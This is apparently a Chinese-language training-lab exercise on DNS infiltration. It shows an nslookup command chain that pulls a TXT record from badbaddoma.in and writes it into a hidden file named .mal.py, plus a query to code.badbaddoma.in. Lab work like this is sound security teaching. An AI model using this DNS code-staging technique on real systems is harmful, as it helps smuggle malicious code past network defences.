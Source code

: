 ![](img/148bc162c65143652b2b8fc0d66556ca.png)![](img/1aeb2836e325b510acd8ca5a030013a1.png)

# 任务 10: DNS 渗透—练习

使用来自**【任务 7】DNS 渗透—练习**的相同虚拟机。

阅读在`~/challenges/infiltration/`文件夹中找到的任务文件。

您可以使用[任务 9] DNS 渗透-演示中使用的相同命令。请记住，您需要调整“grep”部分，并使用适当的字符进行匹配。例如，如果 TXT 记录中的文本值以“G6…”开头，则需要使用“grep G6”。

按照任务文件中的说明完成该问题。

**问题 1:** 输入执行的 python 文件的输出

```
nslookup -type=txt badbaddoma.in | grep ig | cut -d \" -f2 > .mal.py
cat .mal.py
nslookup -type=txt code.badbaddoma.in
```

